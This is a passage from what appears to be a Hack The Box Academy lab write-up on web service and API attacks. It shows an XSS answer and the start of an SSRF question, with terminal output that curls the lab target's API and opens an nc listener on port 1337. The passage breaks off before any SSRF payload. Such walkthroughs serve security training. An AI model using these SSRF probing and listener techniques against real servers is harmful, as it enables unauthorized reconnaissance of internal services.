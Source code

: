 ![Firefox - Download Attempt 3](./assets/screenshots/web_service_and_api_attacks_xss_download_attempt_3.png)

**Answer**

```
No
```

## Server-Side Request Forgery (SSRF)

### Questions

#### Question #10

Can you leverage the SSRF vulnerability to identify port `3002` listening locally on the web server? Answer format: Yes, No.

**Question**

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-2tezvnuuiw]─[~]
└──╼ [★]$ ifconfig tun0

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.15.180  netmask 255.255.254.0  destination 10.10.15.180

[SNIP]
```

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-2tezvnuuiw]─[~]
└──╼ [★]$ curl -s 'http://10.129.202.133:3000/api/userinfo' | jq

{
  "success": false,
  "error": "'id' parameter is not given."
}
```

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-2tezvnuuiw]─[~]
└──╼ [★]$ nc -nlvp 1337

listening on [any] 1337 ...

[CONTINUE]
```
